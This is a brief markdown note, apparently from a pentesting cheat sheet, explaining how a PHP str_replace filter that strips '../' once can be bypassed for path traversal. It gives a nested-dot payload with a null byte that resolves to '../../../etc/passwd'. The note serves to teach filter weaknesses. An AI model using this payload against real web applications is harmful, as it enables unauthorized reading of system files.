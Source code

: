 ### str_replace()
`str_replace` is a PHP function used to replace occurrences of a substring with another substring in a string.

#### Bypass
in php interactive mode:
`$php --interactive`
`php> echo str_replace("hello","chau","hello")` *replace with string chau when it found hello*

`php> echo str_replace("../", "", "../../../etc/passwd"` *replace with nothing the chain ../*
>etc/passwd

we can use this payload:
`....//....//....//....//....//etc/passwd%00` *in this manner, we will remove ../ once only:*
>../../../etc/passwd



